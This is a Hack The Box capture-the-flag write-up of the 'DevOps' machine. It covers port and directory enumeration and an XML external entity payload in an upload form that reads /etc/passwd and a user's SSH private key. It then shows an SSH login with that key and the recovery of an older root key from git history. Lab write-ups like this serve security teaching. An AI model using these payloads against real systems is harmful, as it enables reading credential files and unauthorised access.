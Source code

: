 ```yaml
---
layout: post
title: "HackTheBox: Devops write-up"
date: 2018-10-14
excerpt: "XXE is cool, a git repository could be as well... Wanna have a look at this box?"
tags: [Hack The Box, Pentesting, Pentesting, Hack The Box, XXE, RSA, GIT, SSH]
comments: true
feature: http://www.bestdevops.com/wp-content/uploads/2017/08/devops-tools-375x210.png
---
```


# Hack The Box: DevOps machine write-up

This machine was quite interesting and not so difficult, as it was based on an XML external entity attack which lead to user and then just a basic .git inspection, which is similar to some CTF challenges I had previously done. Its ip is 10.10.10.91.

### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA nmap/initial 10.10.10.91
```

And the result was:

```sh
# Nmap 7.01 scan initiated Wed Sep  5 23:42:28 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.91
Nmap scan report for 10.10.10.91
Host is up (0.89s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|_  256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  5 23:42:40 2018 -- 1 IP address (1 host up) scanned in 12.14 seconds
```

So we find that there is a web server listening on port 5000, which is not the default port 80. Upon visiting the webpage, we get the following:

*Initial message*

![Img](/assets/posts_details/Devops/images/initial.png "Img")

Nothing to check, so I decide to run background recognition with dirb:

```sh
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  6 00:12:15 2018
URL_BASE: http://10.10.10.91:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.91:5000/ ----

+ http://10.10.10.91:5000/feed (CODE:200|SIZE:546263)                          
+ http://10.10.10.91:5000/upload (CODE:200|SIZE:347)                           

-----------------
END_TIME: Thu Sep  6 00:22:05 2018
DOWNLOADED: 4612 - FOUND: 2
```

Something interesting!

*Upload page*

![Img](/assets/posts_details/Devops/images/upload.png "Img")

Looks like there is a test API to upload XML files... Definitely suspicious, we're on the right track. The file needs to have three elements: Author, Subject and Content, so let's craft a new XML file to test the functionality.

At first I uploaded this file:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<file>
	<Author>John, Doe</Author>
	<Subject>Hello</Subject>
	<Content>Computers</Content>
</file>
```

Which resulted in the following output:

*Output page*

![Img](/assets/posts_details/Devops/images/output.png "Img")

### Exploit

This reminded me of XXE, so I modified the file a bit to try to access the ``/etc/passwd`` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

If this worked, the resulting page would list the contents of the file. Let's see the output:

*Output page (second test)*

![Img](/assets/posts_details/Devops/images/passwd.png "Img")

And indeed it works!

From there we can extract the following path: ``/home/roosa``, which now we're going to use to get the RSA private key used in the SSH service we saw before. The new file will thus be:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

And we get roosa's private [key](roosa.key). Then, we just log in through ssh with the following command: ``ssh -i roosa.key roosa@10.10.10.91`` (we must remember to change file permissions to 600, otherwise this won't work).

And we're in an can read the hash in ``user.txt``:

*Getting user hash*

![Img](/assets/posts_details/Devops/images/user.png "Img")

### Root

Once logged in, we notice some interesting directories: ``deploy`` and ``work``. I decide to have a look at them. It turned out ``deploy`` was just the webpage we saw earlier, but then I found something in ``work``:

```console
roosa@gitter:~$ ls -al work
total 12
drwxrwxr-x  3 roosa roosa 4096 Mar 21 07:17 .
drwxr-xr-x 22 roosa roosa 4096 May 29 10:32 ..
drwxrwx---  5 roosa roosa 4096 Mar 21 05:29 blogfeed
roosa@gitter:~$ ls -al work/blogfeed
total 28
drwxrwx--- 5 roosa roosa 4096 Mar 21 05:29 .
drwxrwxr-x 3 roosa roosa 4096 Mar 21 07:17 ..
drwxrwx--- 8 roosa roosa 4096 Mar 26 06:13 .git
-rw-rw---- 1 roosa roosa  104 Mar 19 09:24 README.md
drwxrwx--- 3 roosa roosa 4096 Mar 19 09:31 resources
-rwxrw-r-- 1 roosa roosa  180 Mar 21 05:29 run-gunicorn.sh
drwxrwx--- 2 roosa roosa 4096 Mar 26 06:43 src
```

There is a git repo! That means we can check previous stages of the project.

*git log output*

![Img](/assets/posts_details/Devops/images/git-log.png "Img")

I decide to go back to the second commit because it says that it contains the `key for feed integration from tnerprise backend`, which looks promising.

As we're in a public environment with lots of people I won't do ``git checkout {commit}``, which would restore all files to that point in history for everyone. Instead, I used ``git diff {commit}`` to get the changes made between that commit and the one I'm on.

*git diff output*

![Img](/assets/posts_details/Devops/images/git-diff.png "Img")

Voilà! We just discovered that our ``roosa.key`` (highlighted in green) replaced a previous key (in red). Let's recover it!

I didn't know where to use it, but seeing it was an SSH key I decided to use it again, this time with root user:

*Using the key to log in as root*

![Img](/assets/posts_details/Devops/images/root.png "Img")

And that's all! I hope you enjoyed and learned something!

---

*Diego Bernal Adelantado*

